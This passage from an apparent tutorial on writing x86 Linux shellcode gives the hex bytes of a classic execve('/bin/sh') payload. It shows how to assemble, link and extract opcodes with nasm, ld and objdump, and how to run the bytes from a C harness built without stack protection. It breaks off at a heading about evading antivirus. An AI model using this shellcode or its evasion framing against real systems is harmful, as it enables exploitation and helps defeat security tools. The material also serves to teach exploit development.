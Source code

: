 ```
31 c0 50 68 6e 2f 73 68 68 2f 2f 62 69 89 e3 31 c9 31 d2 b0 0b cd 80
```

### 4. Assemble and Convert to Shellcode

1\. **Assemble the Code**: Use `nasm` to assemble the code:

```
nasm -f elf32 shellcode.asm -o shellcode.o
```

2\. **Link the Object File**:

```
ld -m elf_i386 shellcode.o -o shellcode
```

3\. **Extract Opcodes**: Disassemble the binary to get the opcodes (hexadecimal representation of the Assembly instructions):

```
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 | tr -s ' ' | cut -d' ' -f2- | tr -d '\n'
```

**Result**:

```
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```

### 5. Embed and Test the Shellcode

Embed the shellcode in a simple C program for testing:

```
#include <stdio.h>
#include <string.h>
unsigned char shellcode[] =
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

int main() {
printf("Shellcode length: %d\n", strlen(shellcode));
void (*exec)() = (void(*)())shellcode;
exec();
return 0;
}
```

Compile and test the program:

```
gcc -m32 -fno-stack-protector -z execstack shellcode_test.c -o shellcode_test
```

### 6. Write Unique and Custom Shellcode

To evade antivirus:
